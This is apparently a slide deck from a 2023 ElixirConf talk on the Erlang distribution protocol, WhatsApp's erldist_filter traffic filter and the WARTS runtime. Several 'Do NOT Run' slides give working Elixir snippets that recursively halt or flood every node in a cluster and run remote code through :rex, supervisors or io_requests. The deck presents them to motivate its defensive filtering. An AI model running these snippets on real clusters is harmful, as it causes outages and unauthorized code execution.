


# Erlang Dist Filtering
### and the
# WhatsApp Runtime System

### September 7, 2023
##### Andrew Bennett

<footer class="absolute bottom-0 right-0 p-0">
  
</footer>

---
layout: intro
---

# Slides

- [github.com/potatosalad/elixirconf2023](https://github.com/potatosalad/elixirconf2023)

---
layout: intro
---

# Andrew Bennett

<div class="grid grid-cols-2 gap-2">
<div class="grid grid-rows-3 gap-2">

<v-clicks>

<div>

&nbsp;&nbsp;<a href="https://github.com/potatosalad">@potatosalad</a>

</div>

<div>

&nbsp;&nbsp;<a href="https://twitter.com/potatosaladx">@potatosaladx</a>

</div>

<div>

&nbsp;&nbsp;<a href="https://www.threads.net/@potatosaladx">@potatosaladx</a>

</div>

</v-clicks>

</div>
<div>

<v-clicks>


</v-clicks>

</div>
</div>

---
layout: 'cover'
---

# Overview

1. Distribution Protocol
2. Erlang Dist Filtering
3. WhatsApp Runtime System

---
layout: 'fact'
---

# Distribution Protocol

<v-clicks>

> This description is far from complete.
> 
> &nbsp;
> 
> &mdash; [Erlang: Distribution Protocol](https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html)

</v-clicks>

---
section: 1
layout: two-cols
---

# WhatsApp Clusters

<v-clicks>

* ~2 Billion Daily Active Users
* Large Clusters: ~30k nodes

  ```elixir
  iex(srv@hst.rgn)1> length(Node.list())
  29497
  ```
* Large Peak Traffic: ~1.2B QPS
  

</v-clicks>

::right::

<v-clicks>


</v-clicks>

---
section: 1
layout: two-cols
---

# WhatsApp Clusters

<h3 class="opacity-60">Different Services</h3>

<br>



::right::

# &nbsp;

<v-clicks>

<div>

<h3 class="opacity-60">Full Mesh</h3>

<br>



</div>

</v-clicks>

---
layout: 'two-cols'
section: 1
---

# What is Erlang Dist?

<v-clicks>

- **Handshake**
  - Checks that Cookie matches.
- **Bidirectional**
  - There is no defined Client or Server.
  - $\texttt{Node A} \Longleftrightarrow \texttt{Node B}$
- **Stateful**
  - 2,039 Atom Cache References
  - Links, Unlinks, and Exits
  - Monitors, Aliases, and Spawn Replies
- **Fragmented**
  - Large messages only, may be interleaved.
- **Sequentially Traceable**
  - Trace tokens for _some_ control messages.

</v-clicks>

::right::

<v-clicks>

# Control Messages

- BIF Signals
  - `GROUP_LEADER` and `PAYLOAD_EXIT2`
- Links and Monitors
  - `LINK`, `MONITOR_P`, `DEMONITOR_P`, `UNLINK_ID`, and `UNLINK_ID_ACK`
- Exit Signals
  - `PAYLOAD_EXIT` and `PAYLOAD_MONITOR_P_EXIT`
- Send (Cast)
  - `REG_SEND`, `SEND_SENDER`, and `ALIAS_SEND`
- Spawn Signals
  - `SPAWN_REQUEST` and `SPAWN_REPLY`

</v-clicks>

---
section: 1
---

# Erlang Dist Demonstration: `SEND_SENDER`

```elixir
@spec send(pid(), message :: any())
```

<br />

<v-clicks>

```bash
iex --name foo@127.0.0.1
```

```elixir {all|2|all}
iex(foo@127.0.0.1)1> :erlang.term_to_binary(self())
<<131,88,119,13,102,111,111,64,49,50,55,46,48,46,48,46,49,0,0,0,115,0,0,0,0,100,181,81,70>>
```

```bash
iex --name bar@127.0.0.1
```

```elixir {all|3|all}
iex(bar@127.0.0.1)1> pid = :erlang.binary_to_term(<<131,88,119,13,102,111,111,64,49,50,55,46,48,46,48,46,49,0,0,0,115,0,0,0,0,100,181,81,70>>)
#PID<13730.115.0>
iex(bar@127.0.0.1)2> send(pid, :hello_pid_from_bar)
:hello_pid_from_bar
```

```elixir
iex(foo@127.0.0.1)2> receive do: (msg -> {:foo_shell_received, msg})
{:foo_shell_received, :hello_pid_from_bar}
```

</v-clicks>

---
section: 1
---

# Erlang Dist Demonstration: `REG_SEND`

```elixir
@spec send({registered_name :: atom(), node()}, message :: any())
```

<br />

<v-clicks>

```elixir
iex(foo@127.0.0.1)1> Process.register(self(), :foo_shell)
true
```

```elixir
iex(bar@127.0.0.1)1> send({:foo_shell, :"foo@127.0.0.1"}, :hello_name_from_bar)
:hello_name_from_bar
```

```elixir
iex(foo@127.0.0.1)2> receive do: (msg -> {:foo_shell_received, msg})
{:foo_shell_received, :hello_name_from_bar}
```

</v-clicks>

---
section: 1
---

# Erlang Dist Demonstration: `SPAWN_REQUEST`

```elixir {all|1-6|8-10|all}
iex(foo@127.0.0.1)1> caller = self()
#PID<0.115.0>
iex(foo@127.0.0.1)2> :erlang.spawn_request(:"bar@127.0.0.1", fn ->
...(foo@127.0.0.1)2>   send(caller, {:from, node(), self()})
...(foo@127.0.0.1)2>   System.halt(1)
...(foo@127.0.0.1)2> end)
#Reference<0.2122756392.954204166.156393>
iex(foo@127.0.0.1)3> flush()
{:spawn_reply, #Reference<0.2122756392.954204166.156393>, :ok, #PID<13488.119.0>}
{:from, :"bar@127.0.0.1", #PID<13488.119.0>}
:ok
```

<v-clicks>

```elixir
iex(foo@127.0.0.1)4> Node.ping(:"bar@127.0.0.1")
:pang
```

</v-clicks>

---
section: 1
---

### Do NOT Run: Recursively Halt All Nodes

```elixir
f = fn f ->
  :erpc.multicast(Node.list(), Kernel, :apply, [f, [f]])
  System.halt(1)
end; f.(f)
```

<v-clicks>

<div>

<br>

### Do NOT Run: Recursively Shutdown Erlang Dist

```elixir
f = fn f ->
  :erpc.multicast(Node.list(), Kernel, :apply, [f, [f]])
  Supervisor.terminate_child(:kernel_sup, :net_sup)
  Supervisor.delete_child(:kernel_sup, :net_sup)
end; f.(f)
```

</div>

<div>

<br>

### Do NOT Run: Flood The Network, Eventual OOM

```elixir
f = fn f ->
  str = String.duplicate("a", 64 * 1024 * 1024) # 64MB
  msg = List.duplicate(str, 8)                  # 512MB
  [msg | :erpc.multicall(Node.list(), Kernel, :apply, [f, [f]])]
end; f.(f)
```

</div>

</v-clicks>

---
section: 1
---

### Do NOT Run: Continuous Forced Code Swap

```elixir
c("foo.ex", ".") # locally modified module
{module, bytecode, filename} = :code.get_object_code(Foo)
f = fn f ->
  delay = :rand.uniform(5000)
  Process.sleep(delay)
  {:module, _} = :code.load_binary(module, filename, bytecode)
  :erpc.multicast(Node.list(), Kernel, :apply, [f, [f]])
end; f.(f)
```

<v-clicks>

<div>

<br>

### Do NOT Run: Nefarious RCE Without Spawn Request

```elixir
evil_multicast = fn nodes, fun ->
  cast = {:"$gen_cast", {:cast, Kernel, :apply, [fun, []], Process.group_leader()}}
  Enum.each(nodes, &send({:rex, &1}, cast))
end
evil_multicast.(Node.list(), fn ->
  IO.puts("nefarious remote code execution on #{node()}")
end)
```

</div>

</v-clicks>

---
section: 1
---

### Do NOT Run: Nefarious RCE Without Spawn Request or `:rex`

```elixir
evil_multicast = fn nodes, fun ->
  gl = Process.group_leader()
  glfun = fn -> Process.group_leader(self(), gl); fun.() end
  child_spec = %{id: make_ref(), start: {Kernel, :apply, [glfun, []]}, restart: :temporary}
  Enum.each(nodes, &Supervisor.start_child({:kernel_sup, &1}, child_spec))
end
evil_multicast.(Node.list(), fn ->
  IO.puts("nefarious remote code execution on #{node()}")
end)
```

<v-clicks>

<div>

<br>

### Do NOT Run: Nefarious RCE Without Spawn Request, `:rex`, or Supervisor

```elixir
evil_multicast = fn nodes, fun ->
  iofun = fn -> fun.(); <<>> end
  request = {:put_chars, :unicode, Kernel, :apply, [iofun, []]}
  io_request = {:io_request, self(), make_ref(), request}
  Enum.each(nodes, &send({:standard_error, &1}, io_request))
end
evil_multicast.(Node.list(), fn ->
  IO.puts("nefarious remote code execution on #{node()}")
end)
```

</div>

</v-clicks>

---
layout: 'fact'
section: 1
---

> **Warning!**
> 
> &nbsp;
> 
> The Erlang Distribution protocol is not by itself secure and does not aim to be so.
> 
> &nbsp;
> 
> &mdash; [Erlang: Distribution Protocol](https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html)

---
layout: 'fact'
section: 2
---

# Erlang Dist Filtering

---
layout: 'default'
section: 2
---

# What is Erlang Dist Filtering?

<v-clicks>

- NIF that intercepts/rewrites inbound dist traffic.
- [github.com/WhatsApp/erldist_filter](https://github.com/WhatsApp/erldist_filter)
- **Logger** (stateful, no signal ordering, lossy)
  ```elixir
  :erldist_filter_nif.logger_set_capacity(1000) # set to 0 for unbounded
  @behaviour :erldist_filter_logger
  @callback init(options, worker_number) :: {:ok, state}
  @callback handle_batch(size, drop, events, state) :: {:handle_events, events, state}
  @callback handle_control_event(time, node(), control, state) :: {:cont, state}
  @callback handle_payload_event(time, node(), control, payload, state) :: {:cont, state}
  ```
- **Handler** (stateless, signal ordering, &ldquo;lossless&rdquo;)
  ```elixir
  :erldist_filter.handler_set(MyHandler)
  @behaviour :erldist_filter_handler
  @type hint() :: :drop | :safe | :unsafe
  @callback classify(hint(), node(), control) :: :drop | :keep
  @callback classify(hint(), node(), control, payload) :: :drop | :keep
  @callback spawn_request_init(node(), mod, fun, args) :: none()
  ```

</v-clicks>

---
section: 2
---

### Erlang Dist Filtering Demonstration: Ping/Pong Logging

```bash
iex --erl "-erldist_filter name 'foo@::1' -proto_dist erldist_filter_inet6_tcp"
```

```bash
iex --erl "-erldist_filter name 'bar@::1' -proto_dist erldist_filter_inet6_tcp"
```

<v-clicks>

```elixir
iex(foo@::1)1> Node.ping(:"bar@::1")
:pong
```

<br>

> <h3 style="text-align: center;">🤔 What happened here?</h3>

</v-clicks>

---
section: 2
---

### Erlang Dist Filtering Demonstration: Ping/Pong Logging

```elixir {all|2|4-8|10-13|all}
defmodule MyDistLogger do
  @behaviour :erldist_filter_logger

  @impl :erldist_filter_logger
  def init(_handler_options, _worker_number) do
    state = :queue.new()
    {:ok, state}
  end

  @impl :erldist_filter_logger
  def handle_batch(_batch_size, _batch_drop, batch_events, state) do
    {:handle_events, batch_events, state}
  end
end
```

---
section: 2
---

### Erlang Dist Filtering Demonstration: Ping/Pong Logging

```elixir {all|5-10|12-17|all}
defmodule MyDistLogger do
  @behaviour :erldist_filter_logger
  # ...

  @impl :erldist_filter_logger
  def handle_control_event(time, sysname, control, state) do
    control = :udist.cast_to_dop(control)
    state = :queue.in({time, sysname, control}, state)
    {:cont, state}
  end

  @impl :erldist_filter_logger
  def handle_payload_event(time, sysname, control, payload, state) do
    control = :udist.cast_to_dop(control)
    state = :queue.in({time, sysname, control, payload}, state)
    {:cont, state}
  end
end
```

---
section: 2
---

### Erlang Dist Filtering Demonstration: Ping/Pong Logging

```elixir {all|5-11|12-17|all}
defmodule MyDistLogger do
  @behaviour :erldist_filter_logger
  # ...

  @impl :erldist_filter_logger
  def handle_info({:"$erldist_filter_logger_call", from, :export}, state) do
    reply = :queue.to_list(state)
    :ok = :gen.reply(from, reply)
    state = :queue.new()
    {:cont, state}
  end

  def export() do
    server_ref = :erldist_filter_logger.child_name(__MODULE__, 1)
    {:ok, reply} = :gen.call(server_ref, :"$erldist_filter_logger_call", :export)
    reply
  end
end
```

---
section: 2
---

### Erlang Dist Filtering Demonstration: Ping/Pong Logging

```elixir
:erldist_filter_logger_sup.child_spec(MyDistLogger, [], 1)
```

<v-clicks>

```elixir
MyDistLogger.export()
```

```elixir
{0, :"foo@::1", EDF.udist_dop_monitor_p(from_pid: #PID<25410.1872.0>, to_proc: :net_kernel, ref: #Reference<25410.0.239619.1671857198.330366982.220034>)}
{1, :"foo@::1", EDF.udist_dop_reg_send(from_pid: #PID<25410.1872.0>, unused: :"", to_name: :net_kernel), {:"$gen_call", {#PID<25410.1872.0>, [:alias | #Reference<25410.0.239619.1671857198.330366982.220034>]}, {:is_auth, :"foo@::1"}}}
{2, :"foo@::1", EDF.udist_dop_reg_send(from_pid: #PID<25410.57.0>, unused: :"", to_name: :rex), {#PID<25410.57.0>, :features_request}}
{3, :"foo@::1", EDF.udist_dop_reg_send(from_pid: #PID<25410.1747.0>, unused: :"", to_name: Phoenix.PubSub), {:discover, #PID<25410.1747.0>}}
{4, :"foo@::1", EDF.udist_dop_alias_send(from_pid: #PID<25410.1869.0>, alias: #Reference<0.0.239619.2137722384.867762179.92659>), {[:alias | #Reference<0.0.239619.2137722384.867762179.92659>], :yes}}
{5, :"foo@::1", EDF.udist_dop_send_sender(from_pid: #PID<25410.1747.0>, to_pid: #PID<0.1747.0>), {:"$gen_cast", {:sync, #PID<25410.1747.0>, [{Hello.PubSub.Adapter, [#PID<25410.1902.0>]}]}}}
```

</v-clicks>

---
layout: 'cover'
section: 2
---

```elixir
iex(foo@::1)1> Node.ping(:"bar@::1")
:pong
```

<br>

<v-clicks>

> <h3 style="text-align: center;">🤔 What happened here?</h3>

</v-clicks>

---
section: 2
---

### Erlang Dist Filtering Demonstration: Ping/Pong Logging

```elixir {all|1-2|3-8|9-18|19-24|all}
# Node: bar@::1
# From: foo@::1
# 1: MONITOR_P
EDF.udist_dop_monitor_p(
  from_pid: #PID<25410.1872.0>,
  to_proc: :net_kernel,
  ref: #Reference<25410.0.239619.1671857198.330366982.220034>
)
# 2: REG_SEND
EDF.udist_dop_reg_send(
  from_pid: #PID<25410.1872.0>,
  unused: :"",
  to_name: :net_kernel
)
{:"$gen_call",
  {#PID<25410.1872.0>, [:alias | #Reference<25410.0.239619.1671857198.330366982.220034>]},
  {:is_auth, :"foo@::1"}
}
# 3: DEMONITOR_P
EDF.udist_dop_demonitor_p(
  from_pid: #PID<25410.1872.0>,
  to_proc: :net_kernel,
  ref: #Reference<25410.0.239619.1671857198.330366982.220034>
)
```

---
section: 2
---

### Erlang Dist Filtering Demonstration: Ping/Pong Logging

```elixir {all|1-2|3-8|all}
# Node: foo@::1
# From: bar@::1
# 1: ALIAS_SEND
EDF.udist_dop_alias_send(
  from_pid: #PID<25410.1869.0>,
  alias: #Reference<0.0.239619.1671857198.330366982.220034>
)
{[:alias | #Reference<0.0.239619.1671857198.330366982.220034>], :yes}
```

---
layout: 'fact'
section: 2
---

# Who cares?

---
section: 2
---

### Erlang Dist Filtering Demonstration: Handlers

```elixir {all|1-2|4-5|7-8|all}
iex(foo@::1)1> nodes = Node.list()
[:"bar@::1", :"baz@::1", :"qux@::1", ...]

iex(foo@::1)2> List.zip([nodes, :erpc.multicall(nodes, System, :version, [])])
["bar@::1": {:ok, "1.15.4"}, "baz@::1": {:ok, "1.15.4"}, "qux@::1": {:ok, "2.0-dont-tell-jose"}, ...]

iex(foo@::1)3> List.zip([nodes, :erpc.multicall(nodes, System, :halt, [1])])
["bar@::1": {:exit, {:exception, :unauthorized}}, "baz@::1": {:exit, {:exception, :unauthorized}}, ...]
```

---
section: 2
---

### Erlang Dist Filtering Demonstration: Handlers

```elixir {all|4-21|all}
defmodule MyDistHandler do
  @behaviour :erldist_filter_handler

  @impl :erldist_filter_handler
  def spawn_request_init(_sysname, module, function_name, arguments) do
    case {module, function_name, arguments} do
      {:erpc, :execute_call, [ref, m, f, a]} ->
        case {m, f, a} do
          {System, :version, []} ->
            apply(module, function_name, arguments)
          _ ->
            apply(module, function_name, [ref, __MODULE__, :spawn_request_unauthorized, []])
        end
      _ ->
        spawn_request_unauthorized()
    end
  end

  def spawn_request_unauthorized() do
    exit(:unauthorized)
  end
end
```

---
section: 2
---

### Erlang Dist Filtering Demonstration: Handlers

```elixir {all|1-8|10-12|14-20|all}
def classify(_hint = :unsafe, _sysname, control, {:"$gen_call", _from, _request}) do
  case control do
    EDF.udist_dop_reg_send(to_name: name) when name in [MyTrustedProcess] ->
      :keep
    _ ->
      :drop
  end
end

def classify(_hint = :unsafe, _sysname, _control, {[:alias | _alias], _reply}) do
  :keep
end

def classify(hint, _sysname, _control, _payload) do
  case hint do
    :drop -> :drop
    :safe -> :keep
    :unsafe -> :drop
  end
end
```

---
layout: 'fact'
section: 2
---

# 🧯🪟🔨 Break Glass

<br>

<v-clicks class="text-align-left">

```elixir
:erldist_filter_nif.config_set(:deep_packet_inspection, false)
```

</v-clicks>

---
section: 2
---

### 🧯🪟🔨 Break Glass

```elixir
defmodule MyTrustedModule do
  def audited_break_glass(credentials) do
    if MyTrustedAuthorizer.is_authorized(credentials, :break_glass) do
      :ok = MyTrustedAudit.report(credentials, :break_glass)
      _ = :erldist_filter_nif.config_set(:deep_packet_inspection, false)
      :ok
    else
      :unauthorized
    end
  end
end
```
---
layout: 'fact'
section: 2
---

# 📈 Statistics

---
section: 2
---

### 📈 Statistics: World

```elixir
iex(foo@::1)1> :erldist_filter_nif.world_stats_get()
%{
  channel: %{
    create: 1,
    destroy: 0,
    rx_stats: %{
      atom_cache_overwrite_count: 0,
      atom_cache_read_count: 54,
      atom_cache_write_count: 26,
      dist_frag_cont_count: 0,
      dist_frag_header_count: 0,
      dist_header_count: 21,
      dist_pass_through_count: 0,
      dop_alias_send: %{drop: 0, emit: 3, seen: 3},
      dop_alias_send_tt: %{...},
      ...
    }
  },
  ...
}
```

---
section: 2
---

### 📈 Statistics: Channel

```elixir
iex(foo@::1)2> for c <- :erldist_filter_nif.channel_list(), into: %{} do
...(foo@::1)2>   info = %{entry: %{sysname: name}} = :erldist_filter_nif.channel_inspect(c)
...(foo@::1)2>   {name, info}
...(foo@::1)2> end
%{
  "bar@::1": %{
    controlling_process: #PID<0.184.0>,
    entry: %{
      dflags: 55966662589,
      sysname: :"bar@::1",
      ...
    },
    rx: %{
      atom_cache: [
        {110, :"$gen_call"},
        {113, :"$gen_cast"},
        ...
      ],
      ...
    },
    ...
  }
}
```

---
section: 2
---

### 📈 Statistics: Logger

```elixir
iex(foo@::1)3> for l <- :erldist_filter_nif.logger_list(), into: [] do
...(foo@::1)3>   :erldist_filter_nif.logger_inspect(l)
...(foo@::1)3> end
[%{controlling_process: #PID<0.126.0>, dropped: 1274, received: 742}]
```

---
section: 2
---

### 📈 Statistics: Real World Example #1

<br>


---
section: 2
---

### 📈 Statistics: Real World Example #2

<br>


---
section: 3
layout: 'fact'
---

# WhatsApp Runtime System

<v-clicks>

> I'm going to call it "WARTS" if nobody has a better idea.
>
> &nbsp;
>
> &mdash; ~r/@potatosalad(x?)/

</v-clicks>

---
section: 3
---

# What is WARTS?

<v-clicks>

- Runtime used in production by a large portion WhatsApp.
- Friendly Fork of Erlang/OTP.
  - Based on upstream `maint` branch (as of today, OTP 26).
- [github.com/WhatsApp/warts](https://github.com/WhatsApp/warts)
- Primary focus is on improvements to performance, security, debugging, and tooling for Linux.
- Secondary focus is support for macOS development.

</v-clicks>

---
section: 3
---

# WARTS: Features

<v-clicks>

- Transparent Huge Pages (THP) support on Linux.
- Kernel TLS (kTLS) support for `erldist_filter_nif` on Linux.
- Incremental (faster) dialyzer support.
- Heap profiling and memory debugging tools.
- More features to come!

</v-clicks>

---
layout: end
---
